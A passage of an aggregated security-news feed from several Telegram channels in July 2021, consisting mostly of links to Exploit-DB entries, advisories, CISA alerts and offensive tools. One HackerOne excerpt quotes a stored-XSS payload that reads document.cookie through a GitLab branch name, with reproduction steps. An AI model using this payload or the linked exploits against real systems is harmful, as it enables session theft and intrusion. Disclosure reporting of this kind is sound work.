hi  security team,while searching on github,I have found multiple ssh usernames that belongs to your organization are exposed in the organization github repository STEPS TO REPRODUCE:-      1.Go to this repository. you will see the leaked multiple server ssh usernames.           *https://github.com/iandunn/dotfiles/blob/31f4009ddfde9176ba5880687a5119f59183c267/.ssh/config POC:-     I have attached a screenshot.Have a look at this Impact By knowing the valid usernames, an attacker can easily bruteforce the password and he can get access to your...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-19 23:06:27`

<blockquote>
GitLab: Stored-XSS in merge requests
https://vulners.com/hackerone/H1:1261148?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1261148?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1261148?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary As an attacker I could do XSS on Web.com because it is vulnerable Stored XSS, also known as persistent XSS, is more damaging than non-persistent XSS. It occurs when a malicious script is injected directly into a vulnerable web application. Steps to reproduce  Go to https://gitlab.com/ Create a new branch with name  any of these  CLICKME  &quot;&gt;  &lt;a href&#61;javascript&amp;colon;alert(document.cookie)&gt;Click Here&lt;/a&gt;&#61;&gt;    3. Create a new merge request from the new branch to master 4. XSS is saved and if you will open the readme file and add these payloads to it it will also save these payloads     &#35;&#35;&#35; Output of checks  This bug happens on GitLab.com  &#35;&#35; Impact  This stored-XSS allows attacker to execute arbitrary actions on behalf of victim notably via gitlab API. The attacker can steal data from whoever checks the...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-19 22:06:36`

<blockquote>
[KIS-2021-05] Concrete5 &lt;&#61;8.5.5 (Logging Settings) Phar Deserialization Vulnerability
https://seclists.org/fulldisclosure/2021/Jul/36

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/36">
https://seclists.org/fulldisclosure/2021/Jul/36
</a>
</td></tr></table>

---

# defcon_news
`2021-07-19 19:06:13`

<blockquote>
New Windows Print Spooler Vulnerability - CVE-2021-34481, (Mon, Jul 19th)
https://isc.sans.edu/diary/rss/27648

via SANS Internet Storm Center, InfoCON: green
</blockquote>

<table><tr><td><b>→</b><a href="https://isc.sans.edu/diary/rss/27648">
https://isc.sans.edu/diary/rss/27648
</a>
<blockquote>
New Windows Print Spooler Vulnerability - CVE-2021-34481, Author: Rick Wanner
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-19 13:06:22`

<blockquote>
[webapps] PEEL Shopping 9.3.0 - 'id' Time-based SQL Injection
https://www.exploit-db.com/exploits/50142

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50142?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50142?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
PEEL Shopping 9.3.0 - 'id' Time-based SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-19 13:06:21`

<blockquote>
[webapps] Dolibarr ERP/CRM 10.0.6 - Login Brute Force
https://www.exploit-db.com/exploits/50140

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50140?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50140?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Dolibarr ERP/CRM 10.0.6 - Login Brute Force. CVE-2020-7995 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-19 13:06:19`

<blockquote>
[webapps] WordPress Plugin Mimetic Books 0.2.13 - 'Default Publisher ID field' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50139

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50139?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50139?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WordPress Plugin Mimetic Books 0.2.13 - 'Default Publisher ID field' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-19 13:06:18`

<blockquote>
[webapps] WordPress Plugin LearnPress 3.2.6.8 - Privilege Escalation
https://www.exploit-db.com/exploits/50138

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50138?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50138?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WordPress Plugin LearnPress 3.2.6.8 - Privilege Escalation.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-19 13:06:15`

<blockquote>
[webapps] WordPress Plugin LearnPress 3.2.6.7 - 'current_items' SQL Injection (Authenticated)
https://www.exploit-db.com/exploits/50137

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50137">
https://www.exploit-db.com/exploits/50137
</a>
<blockquote>
WordPress Plugin LearnPress 3.2.6.7 - 'current_items' SQL Injection (Authenticated). CVE-2020-6010 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-18 19:53:38`

<blockquote>
https://github.com/klezVirus/chameleon
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/klezVirus/chameleon">
https://github.com/klezVirus/chameleon
</a>
<blockquote>
PowerShell Script Obfuscator. Contribute to klezVirus/chameleon development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-18 15:06:07`

<blockquote>
https://github.com/R3dy/capsulecorp-pentest
</blockquote>

---

# phd_soc
`2021-07-18 05:56:42`

<blockquote>
Мне больше всего понравилось на русском языке, даже лучше чем у SANS в 504 курсе. https://github.com/certsocietegenerale/IRM/tree/master/RU
</blockquote>

---

# defcon_news
`2021-07-17 05:53:52`

<blockquote>
Windows TCP/IP Denial Of Service
https://packetstormsecurity.com/files/163499/CVE-2021-24086-main.zip

via Exploit Files ≈ Packet Storm
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/163499/CVE-2021-24086-main.zip?utm_source=dlvr.it&utm_medium=twitter">
https://packetstormsecurity.com/files/163499/CVE-2021-24086-main.zip?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-17 05:53:47`

<blockquote>
Realtek RTKVHD64.sys Out-Of-Bounds Access
https://packetstormsecurity.com/files/163498/CVE-2021-32537-main.zip

via Exploit Files ≈ Packet Storm
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/163498/CVE-2021-32537-main.zip?utm_source=dlvr.it&utm_medium=twitter">
https://packetstormsecurity.com/files/163498/CVE-2021-32537-main.zip?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-17 05:53:47`

<blockquote>
Microsoft Hyper-V vmswitch.sys Proof Of Concept
https://packetstormsecurity.com/files/163497/CVE-2021-28476-main.zip

via Exploit Files ≈ Packet Storm
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/163497/CVE-2021-28476-main.zip?utm_source=dlvr.it&utm_medium=twitter">
https://packetstormsecurity.com/files/163497/CVE-2021-28476-main.zip?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-16 17:53:30`

<blockquote>
Google Releases Security Updates for Chrome
https://us-cert.cisa.gov/ncas/current-activity/2021/07/16/google-releases-security-updates-chrome

via CISA Current Activity
</blockquote>

<table><tr><td><b>→</b><a href="https://us-cert.cisa.gov/ncas/current-activity/2021/07/16/google-releases-security-updates-chrome">
https://us-cert.cisa.gov/ncas/current-activity/2021/07/16/google-releases-security-updates-chrome
</a>
<blockquote>
Google has released Chrome version 91.0.4472.164 for Windows, Mac, and Linux. This version addresses vulnerabilities that an attacker could exploit to take control of an affected system. One of these vulnerabilities—CVE-2021-30563—has been detected in exploits in the wild.

CISA encourages users and administrators to review the Chrome Release Note and apply the necessary updates.
</blockquote>
</td></tr></table>

---

# phd_soc
`2021-07-16 17:36:57`

<blockquote>
Немного примеров сценариев реагирования на инциденты от участников https://t.me/phd_soc :

https://github.com/certsocietegenerale/IRM

https://www.incidentresponse.com/playbooks/
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/certsocietegenerale/IRM">
https://github.com/certsocietegenerale/IRM
</a>
<blockquote>
Incident Response Methodologies. Contribute to certsocietegenerale/IRM development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-16 15:53:29`

<blockquote>
[remote] Aruba Instant (IAP) - Remote Code Execution
https://www.exploit-db.com/exploits/50136

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50136">
https://www.exploit-db.com/exploits/50136
</a>
<blockquote>
Aruba Instant (IAP) - Remote Code Execution. CVE-2021-25162CVE-2021-25161CVE-2021-25160CVE-2021-25159CVE-2021-25158CVE-2021-25157CVE-2021-25156CVE-2021-25155 . remote exploit for CGI platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-16 15:53:28`

<blockquote>
[local] Linux Kernel 2.6.19 &lt; 5.9 - 'Netfilter Local Privilege Escalation
https://www.exploit-db.com/exploits/50135

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50135">
https://www.exploit-db.com/exploits/50135
</a>
<blockquote>
Linux Kernel 2.6.19 &lt; 5.9 - 'Netfilter Local Privilege Escalation. CVE-2021-22555 . local exploit for Linux platform
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-16 12:39:59`

<blockquote>
С работой
https://t.me/CyberJobsRussia
</blockquote>

<table><tr><td><b>→</b><a href="https://t.me/CyberJobsRussia">
https://t.me/CyberJobsRussia
</a>
<blockquote>
Rules https://github.com/cyberjobsrussia/rules/blob/main/README.md
Team @elijahduboff - Илья, @TeErevia - Павел, @alexbodryk - Александр \ при поддержке www.cyberlands.io - API Penetration Testing. Попасть в канал - пишем в группе, указываем орг. и вилку
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-16 12:33:38`

<blockquote>
Да Елена тут в нефлудовый чат пришла
https://t.me/CyberJobsRussia
</blockquote>

<table><tr><td><b>→</b><a href="https://t.me/CyberJobsRussia">
https://t.me/CyberJobsRussia
</a>
<blockquote>
Rules https://github.com/cyberjobsrussia/rules/blob/main/README.md
Team @elijahduboff - Илья, @TeErevia - Павел, @alexbodryk - Александр \ при поддержке www.cyberlands.io - API Penetration Testing. Попасть в канал - пишем в группе, указываем орг. и вилку
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-16 10:53:32`

<blockquote>
[remote] Aruba Instant 8.7.1.0 - Arbitrary File Modification
https://www.exploit-db.com/exploits/50133

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50133?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50133?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Aruba Instant 8.7.1.0 - Arbitrary File Modification. CVE-2021-25155 . remote exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-16 10:53:31`

<blockquote>
[webapps] Seagate BlackArmor NAS sg2000-2000.1331 - Command Injection
https://www.exploit-db.com/exploits/50132

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50132">
https://www.exploit-db.com/exploits/50132
</a>
<blockquote>
Seagate BlackArmor NAS sg2000-2000.1331 - Command Injection.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-16 10:53:30`

<blockquote>
[webapps] ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)
https://www.exploit-db.com/exploits/50131

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50131?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50131?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated). CVE-2021-35464 . webapps exploit for Java platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-16 10:53:28`

<blockquote>
VMware ThinApp DLL hijacking vulnerability
https://seclists.org/fulldisclosure/2021/Jul/35

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/35">
https://seclists.org/fulldisclosure/2021/Jul/35
</a>
</td></tr></table>

---

# defcon_news
`2021-07-16 10:53:24`

<blockquote>
[local] Argus Surveillance DVR 4.0 - Weak Password Encryption
https://www.exploit-db.com/exploits/50130

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50130">
https://www.exploit-db.com/exploits/50130
</a>
<blockquote>
Argus Surveillance DVR 4.0 - Weak Password Encryption.. local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-16 10:53:22`

<blockquote>
New Release: UFONet v1.7 - &quot;KRäK!eN&quot;...
https://seclists.org/fulldisclosure/2021/Jul/34

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/34">
https://seclists.org/fulldisclosure/2021/Jul/34
</a>
</td></tr></table>

---

# defcon_news
`2021-07-16 10:53:21`

<blockquote>
Open-Xchange Security Advisory 2021-07-15
https://seclists.org/fulldisclosure/2021/Jul/33

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/33">
https://seclists.org/fulldisclosure/2021/Jul/33
</a>
</td></tr></table>

---

# defcon_news
`2021-07-16 09:53:45`

<blockquote>
Обновление Chrome 91.0.4472.164 с устранением 0-day уязвимости
https://www.opennet.ru/opennews/art.shtml?num&#61;55494

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=55494">
https://www.opennet.ru/opennews/art.shtml?num=55494
</a>
<blockquote>
Компания Google сформировала обновление Chrome 91.0.4472.164, в котором исправлены 8 уязвимостей, в том числе проблема CVE-2021-30563, уже применяемая злоумышленниками в эксплоитах (0-day). Детали пока не раскрываются, известно лишь, что уязвимость вызвана неправильной обработкой типов (Type Confusion) в JavaScript-движке V8.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-15 22:53:33`

<blockquote>
CVE-2021-31956 Exploiting the Windows Kernel via NTFS with WNF – Part 1
https://www.reddit.com/r/netsec/comments/okrmki/cve202131956_exploiting_the_windows_kernel_via/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/okrmki/cve202131956_exploiting_the_windows_kernel_via/">
https://www.reddit.com/r/netsec/comments/okrmki/cve202131956_exploiting_the_windows_kernel_via/
</a>
<blockquote>
Posted in r/netsec by u/digicat • 2 points and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-15 18:53:32`

<blockquote>
Protecting customers from a private-sector offensive actor using 0-day exploits and DevilsTongue malware
https://www.microsoft.com/security/blog/2021/07/15/protecting-customers-from-a-private-sector-offensive-actor-using-0-day-exploits-and-devilstongue-malware/

via Microsoft Security Blog
</blockquote>

<table><tr><td><b>→</b><a href="https://www.microsoft.com/security/blog/2021/07/15/protecting-customers-from-a-private-sector-offensive-actor-using-0-day-exploits-and-devilstongue-malware/">
https://www.microsoft.com/security/blog/2021/07/15/protecting-customers-from-a-private-sector-offensive-actor-using-0-day-exploits-and-devilstongue-malware/
</a>
<blockquote>
The Microsoft Threat Intelligence Center (MSTIC) alongside the Microsoft Security Response Center (MSRC) has uncovered a private-sector offensive actor, or PSOA, that we are calling SOURGUM in possession of now-patched, Windows 0-day exploits (CVE-2021-31979 and CVE-2021-33771).
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-15 14:06:34`

<blockquote>
https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555">
https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555
</a>
<blockquote>
This project hosts security advisories and their accompanying proof-of-concepts related to research conducted at Google which impact non-Google owned code. - security-research/pocs/linux/cve-2021-2...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-15 13:53:29`

<blockquote>
[webapps] WordPress Plugin Popular Posts 5.3.2 - Remote Code Execution (RCE) (Authenticated)
https://www.exploit-db.com/exploits/50129

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50129">
https://www.exploit-db.com/exploits/50129
</a>
<blockquote>
WordPress Plugin Popular Posts 5.3.2 - Remote Code Execution (RCE) (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-15 13:53:28`

<blockquote>
Уязвимость в подсистеме ядра Linux Netfilter
https://www.opennet.ru/opennews/art.shtml?num&#61;55488

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=55488">
https://www.opennet.ru/opennews/art.shtml?num=55488
</a>
<blockquote>
В Netfilter, подсистеме ядра Linux, используемой для фильтрации и модификации сетевых пакетов, выявлена уязвимость (CVE-2021-22555), позволяющая локальному пользователю получить привилегии root в системе, в том числе находясь в изолированном контейнере. Для тестирования подготовлен рабочий прототип эксплоита, обходящий механизмы защиты KASLR, SMAP и SMEP. Исследователь, выявивший уязвимость, получил от Google вознаграждение, размером 20 тысяч долларов, за выявление метода обхода изоляции контейнеров Kubernetes в кластере kCTF.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-15 13:53:26`

<blockquote>
[webapps] osCommerce 2.3.4.1 - Remote Code Execution (2)
https://www.exploit-db.com/exploits/50128

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50128">
https://www.exploit-db.com/exploits/50128
</a>
<blockquote>
osCommerce 2.3.4.1 - Remote Code Execution (2).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-15 12:22:43`

<blockquote>
Kaspersky Password Manager генерировал небезопасные пароли

Опубликован детальнейший разбор уязвимости CVE-2020-27020 в Kaspersky Password Manager:
https://donjon.ledger.com/kaspersky-password-manager/

Менеджер паролей от Касперского использовал слабый генератор псевдослучайных чисел (PRNG), источником которого была текущая дата в секундах. Злоумышленник может перебрать все возможные значения seed для PRNG и подобрать сгенерированный пароль. 

Даже ранее сгенерированные пароли с помощью Kaspersky Password Manager скомпрометированы. 
К примеру, если пароль был сгенерирован между 2010 и 2021, то злоумышленник сможет его подобрать так как в этом промежутке времени всего 315619200 секунд. Для этого ему необходимо &quot;скормить&quot; все возможные значения seed и сгенерировать пароль для выбранного набора символов.
</blockquote>

<table><tr><td><b>→</b><a href="https://donjon.ledger.com/kaspersky-password-manager/">
https://donjon.ledger.com/kaspersky-password-manager/
</a>
<blockquote>
Password generated by Kaspersky Password Manager were predictable (CVE-2020-27020).
</blockquote>
</td></tr></table>

---

# exploitex
`2021-07-15 09:14:00`

* https://telegra.ph/file/ed9f1fccc058ac7227eda.jpg
* https://gitlab.com/divested-mobile/extirpater

<blockquote>
​Как безвозвратно удалить все данные на смартфоне

Перед продажей устройства всегда возникает необходимость в полном очищение хранилища от личных данных. Доверять заводскому сбросу настроек не стоит, ведь в интернете полно способов восстановления файлов.

Можно воспользоваться сторонними помощниками, например приложением Extirpater, которое уничтожит все данные на Android-устройстве без возможности восстановления. Перед применением стоит помнить, что подобные утилиты при частом использовании разрушают накопитель гаджета.

Алгоритм очищения достаточно прост, но эффективен: при стандартном удалении данных, файлы не уничтожаются, а лишь исчезают из индекса файловой системы. Данный же инструмент заполняет оставшееся пространство диска случайным шумом, а затем все начисто очищает.

&#35;приложение
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/ed9f1fccc058ac7227eda.jpg">
https://telegra.ph/file/ed9f1fccc058ac7227eda.jpg
</a>
</td></tr></table>

---

# sysadm_in_channel
`2021-07-14 19:00:45`

<blockquote>
SigNoz/signoz: SigNoz helps developers monitor their applications &amp; troubleshoot problems, an open-source alternative to DataDog, NewRelic, etc. 🔥 🖥
https://github.com/SigNoz/signoz
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/SigNoz/signoz">
https://github.com/SigNoz/signoz
</a>
<blockquote>
SigNoz helps developers monitor their applications &amp; troubleshoot problems, an open-source alternative to DataDog, NewRelic, etc. 🔥 🖥.   👉  Open source Application Performance Monitoring (A...
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-14 18:19:35`

<blockquote>
https://github.com/BeetleChunks/SpoolSploit
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/BeetleChunks/SpoolSploit">
https://github.com/BeetleChunks/SpoolSploit
</a>
<blockquote>
A collection of Windows print spooler exploits containerized with other utilities for practical exploitation. - GitHub - BeetleChunks/SpoolSploit: A collection of Windows print spooler exploits con...
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-07-14 16:18:58`

<blockquote>
Multiple vulnerabilities in VMware ESXi

https://www.vmware.com/security/advisories/VMSA-2021-0014.html
</blockquote>

<table><tr><td><b>→</b><a href="https://www.vmware.com/security/advisories/VMSA-2021-0014.html">
https://www.vmware.com/security/advisories/VMSA-2021-0014.html
</a>
<blockquote>
VMware ESXi updates address authentication and denial of service vulnerabilities (CVE-2021-21994, CVE-2021-21995)
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-14 12:53:06`

<blockquote>
[webapps] WordPress Plugin Current Book 1.0.1 - 'Book Title and Author field' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50127

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50127?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50127?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WordPress Plugin Current Book 1.0.1 - 'Book Title and Author field' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-14 12:53:05`

<blockquote>
[webapps] Webmin 1.973 - Cross-Site Request Forgery (CSRF)
https://www.exploit-db.com/exploits/50126

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50126?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50126?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Webmin 1.973 - Cross-Site Request Forgery (CSRF). CVE-2021-31762 . webapps exploit for Linux platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-14 12:53:04`

<blockquote>
SEC Consult SA-20210714-0 :: Critical vulnerabilities in Schneider Electric EVlink Charging Stations
https://seclists.org/fulldisclosure/2021/Jul/32

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/32">
https://seclists.org/fulldisclosure/2021/Jul/32
</a>
</td></tr></table>

---

# defcon_news
`2021-07-14 03:53:12`

<blockquote>
CISA Issues Emergency Directive on Microsoft Windows Print Spooler
https://us-cert.cisa.gov/ncas/current-activity/2021/07/13/cisa-issues-emergency-directive-microsoft-windows-print-spooler

via CISA Current Activity
</blockquote>

<table><tr><td><b>→</b><a href="https://us-cert.cisa.gov/ncas/current-activity/2021/07/13/cisa-issues-emergency-directive-microsoft-windows-print-spooler">
https://us-cert.cisa.gov/ncas/current-activity/2021/07/13/cisa-issues-emergency-directive-microsoft-windows-print-spooler
</a>
<blockquote>
CISA has issued Emergency Directive (ED) 21-04: Mitigate Windows Print Spooler Service Vulnerability addressing CVE-2021-34527. Attackers can exploit this vulnerability to remotely execute code with system level privileges enabling a threat actor to quickly compromise the entire identity infrastructure of a targeted organization.  
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-14 03:16:58`

<blockquote>
https://github.com/microsoft/CBL-Mariner
</blockquote>

---

# defcon_news
`2021-07-14 01:53:47`

<blockquote>
SolarWinds Releases Advisory for Serv-U Vulnerability
https://us-cert.cisa.gov/ncas/current-activity/2021/07/13/solarwinds-releases-advisory-serv-u-vulnerability

via CISA Current Activity
</blockquote>

<table><tr><td><b>→</b><a href="https://us-cert.cisa.gov/ncas/current-activity/2021/07/13/solarwinds-releases-advisory-serv-u-vulnerability">
https://us-cert.cisa.gov/ncas/current-activity/2021/07/13/solarwinds-releases-advisory-serv-u-vulnerability
</a>
<blockquote>
SolarWinds has released an advisory addressing a vulnerability—CVE-2021-35211—affecting Serv-U Managed File Transfer and Serv-U Secure FTP. Exploitation of this vulnerability may allow a remote attacker to take control of an affected system. Note: this vulnerability does not affect any other SolarWinds or N-able (formerly SolarWinds MSP) products.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:34`

<blockquote>
VirTool.Win32.Afix / Local Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jul/31

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/31">
https://seclists.org/fulldisclosure/2021/Jul/31
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:32`

<blockquote>
VirTool.Win32.Afix / Local Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jul/30

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/30">
https://seclists.org/fulldisclosure/2021/Jul/30
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:31`

<blockquote>
Backdoor.Win32.Surila.j / Remote Denial of Service
https://seclists.org/fulldisclosure/2021/Jul/29

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/29">
https://seclists.org/fulldisclosure/2021/Jul/29
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:30`

<blockquote>
Backdoor.Win32.Surila.j / Authentication Bypass
https://seclists.org/fulldisclosure/2021/Jul/28

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/28">
https://seclists.org/fulldisclosure/2021/Jul/28
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:28`

<blockquote>
Backdoor.Win32.Surila.j / Port Bounce Scan
https://seclists.org/fulldisclosure/2021/Jul/27

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/27">
https://seclists.org/fulldisclosure/2021/Jul/27
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:27`

<blockquote>
Trojan.Win32.RASFlooder.b / Hardcoded Plaintext Password
https://seclists.org/fulldisclosure/2021/Jul/26

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/26">
https://seclists.org/fulldisclosure/2021/Jul/26
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:24`

<blockquote>
Backdoor.Win32.NerTe.a / Unauthenticated Remote Command Execution
https://seclists.org/fulldisclosure/2021/Jul/25

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/25">
https://seclists.org/fulldisclosure/2021/Jul/25
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:23`

<blockquote>
Backdoor.Win32.NerTe.a / Authentication Bypass RCE
https://seclists.org/fulldisclosure/2021/Jul/24

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/24">
https://seclists.org/fulldisclosure/2021/Jul/24
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:22`

<blockquote>
Trojan-Proxy.Win32.Ranky.gen / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/23

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/23">
https://seclists.org/fulldisclosure/2021/Jul/23
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:21`

<blockquote>
Backdoor.IRC.Ataka.a / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/22

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/22">
https://seclists.org/fulldisclosure/2021/Jul/22
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 22:53:19`

<blockquote>
HEUR.Backdoor.Win32.Agent.gen / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/21

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/21">
https://seclists.org/fulldisclosure/2021/Jul/21
</a>
</td></tr></table>

---

# defcon_news
`2021-07-13 12:53:52`

<blockquote>
[webapps] Garbage Collection Management System 1.0 - SQL Injection + Arbitrary File Upload
https://www.exploit-db.com/exploits/50123

via Exploit Database
</blockquote>

